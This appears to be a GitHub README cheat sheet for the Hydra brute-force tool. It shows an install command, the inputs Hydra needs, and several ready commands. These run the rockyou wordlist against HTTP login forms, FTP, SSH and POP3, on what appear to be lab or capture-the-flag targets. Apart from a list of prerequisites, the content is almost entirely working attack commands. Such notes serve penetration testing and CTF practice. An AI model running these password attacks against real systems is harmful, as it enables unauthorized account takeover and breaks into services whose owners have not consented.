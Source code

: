 [![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

# hydra
[https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra]
<hr/>

## install hydra in Linux
```sh
sudo dnf -y install hydra
```

## How hydra works
Using Hydra to Brute-Force Our First Login Page

Hydra is a fairly straight forward tool to use, but we have to first understand what it needs to work correctly. We’ll need to provide the following in order to break in:

- Login or Wordlist for Usernames
- Password or Wordlist for Passwords
- IP address or Hostname        
- HTTP Method (POST/GET)
- Directory/Path to the Login Page
- Request Body for Username/Password
- A Way to Identify Failed Attempts



> hydra -l <username> -p <password> <server> <service> -s <port> -t <thread> -o <output>
> -L <users> -P <passwords>

```sh
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
```

```sh
hydra -L username.txt -P password.txt 192.168.1.37 ftp -s 21
```

hydra -l <username> -p <password> ssh://<ip>



hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://target.ip -o hydra.ssh.jake
hydra -l john -P /usr/share/wordlists/rockyou.txt target.ip -s 62337 http-post-form "/components/user/controller.php?action=authenticate:username=john&password=^PASS^:Incorrect Username or Password" -o hydra.http.john
hydra -V -I -L usernames.txt -P log1.txt target.ip  http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect." -o hydra.http
hydra -I -L usernames.txt -P passwords.txt pop3://target.ip -t 64 -o hydra.pop3

